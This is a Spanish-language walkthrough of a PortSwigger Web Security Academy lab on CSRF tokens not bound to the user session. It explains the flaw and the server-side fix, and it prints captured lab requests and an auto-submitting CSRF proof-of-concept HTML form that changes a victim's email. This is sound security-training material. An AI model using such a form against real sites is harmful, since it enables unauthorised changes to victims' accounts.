



# PortSwigger Web Security Academy — CSRF Lab 4

# CSRF where token is not tied to user session

**URL del lab:** `https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session`  
**Categoría:** CSRF  
**Nombre:** CSRF where token is not tied to user session  
**Objetivo:** crear una página HTML en el exploit server que fuerce al navegador de la víctima a cambiar su email mediante CSRF.  
**Cuentas disponibles:**

```text
wiener:peter
carlos:montoya
```

---

## Capturas incluidas

- `images/01_lab_home.png`
- `images/02_carlos_email_changed.png`
- `images/03_lab_solved.png`







---

# 1. Qué enseña este laboratorio

Este laboratorio enseña una debilidad muy importante en la implementación de tokens CSRF.

La aplicación sí tiene token CSRF.

La aplicación sí exige que la petición lleve un parámetro `csrf`.

La aplicación sí rechaza tokens inválidos.

Pero el fallo es este:

```text
El token CSRF no está ligado a la sesión del usuario.
```

Eso significa que un token generado para un usuario puede ser reutilizado por otro usuario.

En otras palabras:

```text
Token de wiener + sesión de carlos = aceptado
```

Eso no debería ocurrir nunca.

---

# 2. Qué es CSRF

CSRF significa:

```text
Cross-Site Request Forgery
```

En español:

```text
Falsificación de petición en sitios cruzados
```

La idea del ataque es que una página controlada por el atacante fuerza al navegador de la víctima a enviar una petición a una aplicación donde la víctima ya está autenticada.

El atacante no necesita robar la cookie.

El atacante no necesita leer la respuesta.

El atacante solo necesita provocar una petición.

El navegador se encarga de añadir automáticamente la cookie de sesión correspondiente al dominio vulnerable.

---

# 3. Por qué el navegador es clave

Cuando un usuario inicia sesión, el servidor le entrega una cookie de sesión.

Ejemplo:

```http
Set-Cookie: session=P0MSwzer890AFcveruuUSBU3r03kYKSC
```

Después, cada vez que el navegador haga una petición a ese dominio, enviará automáticamente:

```http
Cookie: session=P0MSwzer890AFcveruuUSBU3r03kYKSC
```

Eso ocurre aunque la petición haya sido provocada desde una página externa, como el exploit server.

El atacante no ve la cookie, pero puede hacer que el navegador de la víctima la mande.

Ahí nace CSRF.

---

# 4. Qué problema resuelve un token CSRF

Un token CSRF sirve para diferenciar entre:

```text
Petición autenticada
```

y:

```text
Petición autenticada e intencional
```

La cookie demuestra que hay una sesión válida.

Pero no demuestra que el usuario haya querido hacer esa acción.

El token CSRF intenta demostrar que la petición salió de un formulario legítimo generado por la aplicación para esa sesión concreta.

---

# 5. Cómo debería funcionar un token CSRF seguro

Cuando `wiener` inicia sesión, el servidor debería asociar su sesión a su token:

```text
SESSION_WIENER -> TOKEN_WIENER
```

Cuando `carlos` inicia sesión, debería tener su propia relación:

```text
SESSION_CARLOS -> TOKEN_CARLOS
```

En una aplicación segura:

```text
Carlos + TOKEN_CARLOS  -> aceptar
Carlos + TOKEN_WIENER  -> rechazar
Wiener + TOKEN_WIENER  -> aceptar
Wiener + TOKEN_CARLOS  -> rechazar
```

La idea clave es:

```text
El token debe pertenecer a la sesión actual.
```

---

# 6. Qué hace mal este laboratorio

El servidor valida que el token sea un token emitido por la aplicación, pero no valida que pertenezca a la sesión actual.

La lógica vulnerable sería algo parecido a esto:

```python
if csrf_token in valid_tokens:
    allow_request()
else:
    reject_request()
```

Eso está mal porque `valid_tokens` parece una lista global.

La lógica correcta debería ser:

```python
expected = csrf_token_for_session[current_session]

if submitted_token == expected:
    allow_request()
else:
    reject_request()
```

La diferencia es enorme.

---

# 7. Por qué esto rompe la protección CSRF

Normalmente el atacante no puede conocer el token CSRF de la víctima.

Pero aquí no lo necesita.

Puede iniciar sesión en su propia cuenta, obtener su propio token CSRF y usarlo contra la víctima.

El servidor vulnerable solo comprobará que ese token es válido, no que pertenece a la víctima.

---

# 8. Diferencia con los labs anteriores

## Lab 1: sin defensas

No había token.

## Lab 2: validación dependiente del método

El token se validaba con POST, pero no con GET.

## Lab 3: validación dependiente de que el token esté presente

Si eliminabas el parámetro `csrf`, la aplicación dejaba pasar la petición.

## Lab 4: token no ligado a sesión

Aquí el token sí debe estar presente.

Aquí no basta con eliminarlo.

Aquí el bypass consiste en usar un token válido de otro usuario.

---

# 9. Inicio del laboratorio

Abrimos el laboratorio.

La página tiene aspecto de blog.


Nos dan dos cuentas:

```text
wiener:peter
carlos:montoya
```

El hecho de que el lab nos dé dos cuentas es una pista: tenemos que probar si los tokens CSRF se pueden intercambiar entre sesiones.

---

# 10. Funcionalidad vulnerable

La funcionalidad vulnerable está en:

```text
My account -> Change email
```

Cambiar el email modifica el estado de la cuenta, así que debe estar protegido contra CSRF.

---

# 11. Primera sesión: login como wiener

Entramos como:

```text
wiener:peter
```

Cambiamos el email y capturamos la petición en Burp Suite.

```http
POST /my-account/change-email HTTP/2
Host: 0a95007e03139af481b3894600530069.web-security-academy.net
Cookie: session=P0MSwzer890AFcveruuUSBU3r03kYKSC
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: https://0a95007e03139af481b3894600530069.web-security-academy.net
Referer: https://0a95007e03139af481b3894600530069.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=payload%40gmail.com&csrf=hf3l98NeqPWQjLiO01B1sxmjzrJ1s2lY
```

---

# 12. Token capturado de wiener

El body contiene:

```text
email=payload%40gmail.com&csrf=hf3l98NeqPWQjLiO01B1sxmjzrJ1s2lY
```

Decodificado:

```text
email=payload@gmail.com
csrf=hf3l98NeqPWQjLiO01B1sxmjzrJ1s2lY
```

Token de wiener:

```text
hf3l98NeqPWQjLiO01B1sxmjzrJ1s2lY
```

Guardamos este token.

Podemos dropear la petición porque solo queríamos obtener el token.

---

# 13. Segunda sesión: login como Carlos

Ahora iniciamos sesión como:

```text
carlos:montoya
```

Capturamos una petición legítima de cambio de email.

```http
POST /my-account/change-email HTTP/2
Host: 0a95007e03139af481b3894600530069.web-security-academy.net
Cookie: session=P0MSwzer890AFcveruuUSBU3r03kYKSC
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: https://0a95007e03139af481b3894600530069.web-security-academy.net
Referer: https://0a95007e03139af481b3894600530069.web-security-academy.net/my-account?id=carlos
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=toloko%40gmail.com&csrf=L6UROjPVylwMkoO5HpCxIfxWkyoDkuSe
```

Token legítimo de Carlos:

```text
L6UROjPVylwMkoO5HpCxIfxWkyoDkuSe
```

---

# 14. Prueba clave: usar token de wiener en sesión de Carlos

Sustituimos el token de Carlos por el token de wiener.

Antes:

```text
email=toloko%40gmail.com&csrf=L6UROjPVylwMkoO5HpCxIfxWkyoDkuSe
```

Después:

```text
email=toloko%40gmail.com&csrf=hf3l98NeqPWQjLiO01B1sxmjzrJ1s2lY
```

Request modificada:

```http
POST /my-account/change-email HTTP/2
Host: 0a95007e03139af481b3894600530069.web-security-academy.net
Cookie: session=P0MSwzer890AFcveruuUSBU3r03kYKSC
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: https://0a95007e03139af481b3894600530069.web-security-academy.net
Referer: https://0a95007e03139af481b3894600530069.web-security-academy.net/my-account?id=carlos
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=toloko%40gmail.com&csrf=hf3l98NeqPWQjLiO01B1sxmjzrJ1s2lY
```

---

# 15. Resultado de la prueba manual

La petición funciona y el email de Carlos se cambia.


Esto demuestra de forma clara que:

```text
El token de wiener sirve en la sesión de Carlos.
```

Esa es la vulnerabilidad.

---

# 16. Qué habría pasado en una aplicación segura

Una aplicación segura debería rechazar:

```text
Cookie: session=SESSION_CARLOS
csrf=TOKEN_WIENER
```

Porque `TOKEN_WIENER` no pertenece a `SESSION_CARLOS`.

La respuesta esperada debería ser algo como:

```text
Invalid CSRF token
```

o:

```text
Forbidden
```

---

# 17. Qué demuestra exactamente

La aplicación no está haciendo esta comprobación:

```text
¿Este token pertenece a esta sesión?
```

Solo está haciendo algo parecido a:

```text
¿Este token existe?
```

o:

```text
¿Este token fue emitido por la aplicación?
```

Eso no basta.

---

# 18. Por qué esta prueba manual es importante

Antes de construir el exploit final, necesitamos confirmar la hipótesis.

La prueba con dos usuarios confirma que:

```text
los tokens son intercambiables entre sesiones.
```

A partir de ahí, ya sabemos que podemos crear un CSRF real usando un token propio.

---

# 19. Obtener un token fresco de wiener

Volvemos a la cuenta de wiener y capturamos otro token.

Token obtenido:

```text
W5sWhbbBxNCugknjtTJoxF6QaqOhhkzW
```

Este token se usará en el exploit final.

---

# 20. Preparar la petición para generar el PoC

Volvemos a Carlos, capturamos una petición de cambio de email y la mandamos a Repeater.

Petición original:

```http
POST /my-account/change-email HTTP/1.1
Host: 0a95007e03139af481b3894600530069.web-security-academy.net
Cookie: session=uckXVcW8RB9UHQ1L7Gdu7ffITYlBK2GD
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: https://0a95007e03139af481b3894600530069.web-security-academy.net
Referer: https://0a95007e03139af481b3894600530069.web-security-academy.net/my-account?id=carlos
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

email=pepe%40gmail.com&csrf=deu8HOD23XQbrp7QmR2H3hAzmXY9FjNV
```

Sustituimos el token por el de wiener:

```text
email=pepe%40gmail.com&csrf=W5sWhbbBxNCugknjtTJoxF6QaqOhhkzW
```

---

# 21. Generar CSRF PoC

En Burp Suite:

```text
Click derecho -> Engagement tools -> Generate CSRF PoC
```

Burp genera el HTML que reproduce la request.

---

# 22. HTML generado

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a95007e03139af481b3894600530069.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pepe&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="W5sWhbbBxNCugknjtTJoxF6QaqOhhkzW" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

# 23. Explicación del HTML línea por línea

## Formulario

```html
<form action="https://0a95007e03139af481b3894600530069.web-security-academy.net/my-account/change-email" method="POST">
```

Define un formulario que enviará una petición POST al endpoint vulnerable.

## Campo email

```html
<input type="hidden" name="email" value="pepe&#64;gmail&#46;com" />
```

Envía:

```text
email=pepe@gmail.com
```

`&#64;` equivale a `@`.

`&#46;` equivale a `.`.

## Campo csrf

```html
<input type="hidden" name="csrf" value="W5sWhbbBxNCugknjtTJoxF6QaqOhhkzW" />
```

Este es el token del atacante.

No pertenece a la víctima.

Pero el servidor vulnerable lo acepta.

## Auto-submit

```html
<script>
  history.pushState('', '', '/');
  document.forms[0].submit();
</script>
```

La línea esencial es:

```javascript
document.forms[0].submit();
```

Envía el formulario automáticamente.

La víctima no tiene que pulsar nada.

---

# 24. Qué ocurre cuando la víctima visita el exploit

La víctima está autenticada en la aplicación.

Cuando visita el exploit server:

```text
1. El navegador carga el HTML malicioso.
2. El JavaScript autoenvía el formulario.
3. La petición va al sitio vulnerable.
4. El navegador de la víctima añade su cookie de sesión.
5. El body contiene el email nuevo y el token del atacante.
6. El backend comprueba que el token es válido globalmente.
7. No comprueba si el token pertenece a la sesión de la víctima.
8. El email de la víctima se cambia.
```

---

# 25. Papel del exploit server

El exploit server es la web maliciosa controlada por el atacante.

Pegamos el HTML en el body.

Pulsamos:

```text
Store
```

Después:

```text
Deliver exploit to victim
```

El laboratorio simula que la víctima visita esa página.

---

# 26. Resultado

El laboratorio queda resuelto.


---

# 27. Flujo completo del ataque

```text
Atacante inicia sesión como wiener
  ↓
Obtiene token CSRF válido
  ↓
Crea HTML malicioso con ese token
  ↓
Víctima visita exploit server
  ↓
Navegador víctima envía cookie de víctima automáticamente
  ↓
Formulario envía token de wiener
  ↓
Servidor acepta token porque es válido globalmente
  ↓
Servidor no comprueba que pertenezca a la sesión de la víctima
  ↓
Email de la víctima cambiado
  ↓
Lab solved
```

---

# 28. Qué NO estamos haciendo

Este ataque no requiere:

- robar la cookie de la víctima,
- robar el token de la víctima,
- leer respuestas cross-origin,
- XSS,
- adivinar tokens,
- eliminar el parámetro CSRF.

Solo requiere:

```text
un token válido cualquiera.
```

---

# 29. Concepto clave: token válido vs token correcto

## Token válido

Un token emitido por la aplicación.

Ejemplo:

```text
W5sWhbbBxNCugknjtTJoxF6QaqOhhkzW
```

## Token correcto

Un token emitido para la sesión actual.

La aplicación vulnerable acepta tokens válidos.

La aplicación segura debe exigir el token correcto.

---

# 30. Cómo debería arreglarse

La aplicación debe guardar el token por sesión.

Ejemplo:

```python
session_id = request.cookies["session"]
expected_token = csrf_tokens[session_id]
submitted_token = request.form["csrf"]

if submitted_token != expected_token:
    reject()
```

No debe comprobar solo si el token existe en una lista global.

---

# 31. Requisitos de una defensa CSRF segura

Un token CSRF debe ser:

- impredecible,
- suficientemente largo,
- generado por el servidor,
- asociado a la sesión,
- asociado idealmente a la acción sensible,
- validado en cada petición que cambie estado,
- rechazado si falta,
- rechazado si pertenece a otra sesión.

En este lab falla el punto principal:

```text
asociado a la sesión
```

---

# 32. Frase clave

```text
Un token CSRF no sirve si no está ligado a la sesión que intenta usarlo.
```

---

# 33. Idea definitiva

La pregunta correcta del servidor no es:

```text
¿Este token existe?
```

La pregunta correcta es:

```text
¿Este token es el token esperado para esta sesión concreta?
```

En este laboratorio, la aplicación falla precisamente en esa comprobación.

---

# 34. Payload final

```html
<html>
  <body>
    <form action="https://0a95007e03139af481b3894600530069.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pepe&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="W5sWhbbBxNCugknjtTJoxF6QaqOhhkzW" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

# 35. Resumen final

Este laboratorio se resuelve porque:

```text
El servidor acepta un token CSRF válido aunque pertenezca a otra sesión.
```

La cadena de explotación es:

```text
token del atacante + cookie de la víctima = acción aceptada
```

Esa combinación nunca debería ser válida.

Por eso el lab se resuelve alojando un formulario CSRF con un token obtenido desde nuestra propia cuenta.

